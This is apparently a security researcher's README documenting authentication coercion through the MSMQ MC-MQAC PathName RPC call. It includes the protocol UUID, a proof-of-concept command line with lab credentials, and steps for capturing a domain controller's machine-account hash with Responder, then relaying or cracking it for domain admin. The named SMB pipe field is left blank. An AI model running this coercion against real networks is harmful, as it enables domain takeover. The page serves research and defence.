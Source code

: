# MC-MQAC - Remote call to PathName (opnum 13)

## Summary

 - **Protocol**: [[MC-MQAC]: Message Queuing (MSMQ): ActiveX Client Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d)

 - **Protocol UUID**: 0fb15084-af41-11ce-bd2b-204c4f4f5020

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`PathName`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/c0fc744f-ee77-4df5-8689-e37940689a75)

 - **Function operation number**: `13`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MC-MQAC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d) protocol (with uuid `0fb15084-af41-11ce-bd2b-204c4f4f5020` and version `0.0`) in order to perform remote procedure calls to functions in the [`MC-MQAC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MC-MQAC]: Message Queuing (MSMQ): ActiveX Client Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d) and allows to call RPC functions of this protocol. We will then call the remote [`PathName`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/c0fc744f-ee77-4df5-8689-e37940689a75) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
PathName('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
[propput] HRESULT PathName(
   [in] BSTR bstrPathName
 );
```

## References

 - Documentation of protocol [MC-MQAC]: Message Queuing (MSMQ): ActiveX Client Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d

 - Documentation of function `PathName`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/c0fc744f-ee77-4df5-8689-e37940689a75